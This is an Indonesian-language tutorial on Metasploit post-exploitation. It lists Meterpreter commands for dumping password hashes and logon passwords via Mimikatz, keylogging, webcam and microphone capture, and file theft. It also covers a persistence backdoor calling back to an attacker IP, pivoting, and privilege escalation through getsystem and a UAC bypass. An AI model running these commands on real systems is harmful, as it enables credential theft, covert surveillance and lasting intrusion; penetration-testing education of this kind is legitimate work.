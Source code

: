 # Post-Exploitation di Metasploit

## A. Apa Itu Post-Exploitation?

`Post-Exploitation` adalah tahap lanjutan setelah berhasil mendapatkan akses ke sistem target. Di Metasploit, khususnya dengan Meterpreter session, kamu bisa melakukan berbagai aktivitas lanjutan untuk `mengumpulkan informasi`, `memperluas akses`, hingga `mengambil alih sistem` secara penuh.

## B. Konsep Dasar Meterpreter

`Meterpreter` adalah payload berbasis memory injection yang powerful, interaktif, dan tidak menulis file ke disk (stealthy). Setelah exploit berhasil, Meterpreter menyediakan antarmuka CLI untuk post-exploitation.

## C. Perintah Dasar Meterpreter

| Perintah	| Fungsi |
|:--:|:--:|
| `sysinfo`	| Melihat informasi sistem target |
| `getuid` | Menampilkan User ID (UID) |
| `ps` | Menampilkan proses yang sedang berjalan |
| `shell`	| Membuka command shell dari mesin target |
| `getprivs` | Menampilkan privilege yang dimiliki |
| `getsystem`	| Mencoba escalate privilege jadi SYSTEM |
| `screenshot` | Mengambil tangkapan layar target |

## D. Dump Password Hash

Langkah-langkah:

### 1. Jalankan:

```
meterpreter > load kiwi
```

### 2. Dump Hash SAM:

```
meterpreter > hashdump
```

### 3. Atau Menggunakan Mimikatz:

```
meterpreter > kiwi_cmd sekurlsa::logonpasswords
```

## E. Keylogger

### 1. Mulai keylogger:

```
meterpreter > keyscan_start
```

### 2. Lihast Hasil

```
meterpreter > keyscan_dump
```

### 3. Hentikan:

```
meterpreter > keyscan_stop
```

## F. Webcam (Ambil Gambar)

### 1. Cek webcam:

```
meterpreter > webcam_list
```

### 2. Ambil gambar:

```
meterpreter > webcam_snap
```

### 3. Atau rekam:

```
meterpreter > record_mic
```

## F. File & Data Collection

| Perintah	| Fungsi |
|:--:|:--:|
| `ls`, `cd`, `pwd` | Navigasi file |
| `download <file>`	| Unduh file dari target |
| `upload <file>`	| Upload file ke target |
| `search -f *.docx`	| Cari file tertentu |
| `cat <file>`	| Lihat isi file|

## G. Persistence (Backdoor)

Contoh membuat persistence di Windows:

```
meterpreter > run persistence -U -i 5 -p 4444 -r 192.168.1.10
```

**Keterangan:**

- Autostart saat login.
- `-i` : Interval `5 detik`.
- `-p` : Port listener `4444`.
- `-r` : IP attacker: `192.168.1.10`.

## Pivoting dan Port Forwarding

Jika target berada di jaringan internal, kamu bisa pivot ke sistem lain:

```
meterpreter > run autoroute -s 192.168.10.0/24
```

Gunakan port forwarding untuk akses service internal:

```
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.10.10
```

## I. Privilege Escalation

Coba naikkan hak akses jadi SYSTEM:

```
meterpreter > getsystem
```

Atau gunakan exploit lokal seperti:

```
msf6 > use exploit/windows/local/bypassuac
```

## J. Kesimpulan

Post-exploitation adalah fase paling menentukan dalam operasi penetrasi. Dengan Meterpreter, kamu bisa:

- Mengumpulkan informasi sensitif.
- Menanamkan backdoor.
- Mengendalikan perangkat target secara penuh.

> Pastikan semua aksi kamu terukur, tercatat, dan bertanggung jawab.
